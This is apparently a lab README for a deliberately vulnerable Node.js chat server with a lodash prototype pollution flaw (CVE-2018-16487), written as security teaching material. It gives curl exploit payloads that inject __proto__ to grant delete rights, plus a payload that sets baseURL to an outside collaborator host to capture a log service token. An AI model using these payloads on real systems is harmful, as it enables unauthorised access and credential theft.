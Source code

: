 ## Chat

This is example chat server vulnerable to Prototype Pollution.

- `GET /` - List all messages (available without authentication).
  ```bash
  curl --request GET --url http://localhost:3000/
  ```
- `PUT /` - Post a new message (only registered users).
  ```bash
  curl --request PUT \
    --url http://localhost:3000/ \
    --header 'content-type: application/json' \
    --data '{"auth": {"name": "user", "password": "pwd"}, "message": {"text": "Hi!"}}'
  ```
- `DELETE /` - Delete a message (only administrators).
  ```bash
  curl --request DELETE \
    --url http://localhost:3000/ \
    --header 'content-type: application/json' \
    --data '{"auth": {"name": "admin", "password": "???"}, "messageId": 2}'
  ```

An attacker target here is to delete message without administrator credentials.

#### Run

- `npm install`
- `npm start`

#### Vulnerability

The Prototype Pollution vulnerability (CVE-2018-16487) introduced
by [lodash@4.17.4](https://www.npmjs.com/package/lodash/v/4.17.4) via `_.merge()` function. More details about the issue
you can find on [Snyk website](https://snyk.io/vuln/SNYK-JS-LODASH-73638).

[https://github.com/lodash/lodash/commit/90e6199a161b6445b01454517b40ef65ebecd2ad](https://github.com/lodash/lodash/commit/90e6199a161b6445b01454517b40ef65ebecd2ad)

#### How To Exploit

1. Send evil message with `__proto__`.
   ```bash
   curl --request PUT \
     --url http://localhost:3000/ \
     --header 'content-type: application/json' \
     --data '{"auth": {"name": "user", "password": "pwd"}, "message": { "text": "😈", "__proto__": {"canDelete": true}}}'
   ```
2. Delete any message you want using user's credentials.
   ```bash
   curl --request DELETE \
     --url http://localhost:3000/ \
     --header 'content-type: application/json' \
     --data '{"auth": {"name": "user", "password": "pwd"}, "messageId": 1}'
   ```

### Hijacking Log Service Token

```
{"auth": {"name": "user", "password": "pwd"}, "message": {"text": "Hi!",
"__proto__": {
"canDelete": true,
"baseURL": "http://s81hehdn4fnv8n5ezwo4209syj4as2gr.oastify.com"
}}
}
```

## Second Challenge: DOM-based XSS

https://portswigger.net/web-security/prototype-pollution/client-side/lab-prototype-pollution-dom-xss-via-client-side-prototype-pollution

